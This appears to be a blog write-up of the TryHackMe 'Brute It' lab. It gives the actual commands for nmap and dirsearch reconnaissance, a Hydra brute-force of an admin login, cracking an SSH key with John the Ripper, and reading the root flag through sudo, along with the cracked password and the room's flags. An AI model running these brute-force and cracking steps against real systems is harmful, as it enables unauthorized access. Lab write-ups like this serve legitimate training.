 ```yaml
---
title: "🧪 TryHackMe – Brute It"
layout: post
collection: writeups
permalink: /writeups/tryhackme-brute-it/
date: 2025-01-10
categories: [project]
tags: [react, mysql, logistics]
image: /assets/images/writeups/brute-it/tryhackme-brute-it.png
thumbnail: /assets/images/writeups/brute-it/tryhackme-brute-it.png
icon: fas fa-bolt
excerpt: "Brute-forced SSH using Hydra, cracked RSA key with John the Ripper, and escalated to root on an Ubuntu machine."
description: "Hydra brute-force against an admin panel, SSH key crack with john, and privilege escalation on an Ubuntu machine."
---
```




![Brute It Screenshot](/assets/images/writeups/brute-it/tryhackme-brute-it.png)

## 🧠 Target
- Brute-force login credentials over SSH  
- Hash cracking  
- Privilege escalation

## 🛠 Tools Used
- Hydra  
- Nmap  
- John the Ripper  
- Kali Linux

## 🧭 Steps

### Step 1 — Deployed the target machine
Target IP: `10.10.34.33`  
Deployed the target and confirmed reachability.

![Target Machine](/assets/images/writeups/brute-it/target-machine.png)

### Step 2 — Nmap scan
Command:
nmap -sS -sV 10.10.34.33

markdown
Copy code
Findings: ports `22` (ssh) and `80` (http) open. SSH: **OpenSSH 7.6p1**. Apache: **2.4.29**. OS: **Ubuntu**.

![Nmap](/assets/images/writeups/brute-it/nmap.png)

### Step 3 — Hidden directories
Used dirsearch:
dirsearch -u http://10.10.34.33


Found `/admin` — admin login page available.

![Dirsearch](/assets/images/writeups/brute-it/dirsearch.png)

### Step 4 — Admin page analysis
Visited `http://10.10.34.33/admin`. Devtools revealed a username hint: `admin`.

![Admin Devtools](/assets/images/writeups/brute-it/User-login-info-devtools.png)

### Step 5 — Hydra brute-force
Initial (slow) command:
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.34.33 http-post-form "/admin/:user=^USER^&pass=^PASS^login=^Login:Username or password invalid"

makefile
Copy code
Optimized:
hydra -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -t 16 -vV 10.10.34.33 http-post-form "/admin/:user=^USER^&pass=^PASS^&login=Login:Username or password invalid"

ruby
Copy code
Result: `login: admin  password: xavier`

![Hydra](/assets/images/writeups/brute-it/hydra1.png)

### Step 6 — Logged in as admin
Gained user access. Web flag: `THM{brut3_f0rce_is_e4sy}`.

![Admin Login](/assets/images/writeups/brute-it/login-success.png)

### Step 7 — Extracted RSA private key & cracked it
Saved RSA private key and converted it for John:
ssh2john id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=SSH hash
john --show hash

ruby
Copy code
Cracked key allowed SSH as `john`.

![RSA crack](/assets/images/writeups/brute-it/rockinroll.png)

### Step 8 — Shell & flags
Used the private key:
chmod 600 id_rsa
ssh -i id_rsa john@10.10.34.33
cat user.txt

ruby
Copy code
Web Flag: `THM{brut3_f0rce_is_e4sy}`  
User flag present. Then escalated to root.

![Shell](/assets/images/writeups/brute-it/root.png)

### Step 9 — Privilege escalation
Checked sudo rights:
sudo -l
sudo cat /root/root.txt

yaml
Copy code
Root flag: `THM{pr1v1l3g3_3sc4l4t10n}`

![Privilege](/assets/images/writeups/brute-it/sudo.png)

---

## 📘 Lessons Learned
- Enforce account lockout and rate-limiting (prevent brute-force).  
- Use multi-factor authentication or SSH key policies.  
- Avoid guessable credentials and default accounts.

---

## Notes / Artifacts
- Commands used and screenshots are included above.  
- Sanitize any client screenshots before publishing publicly.

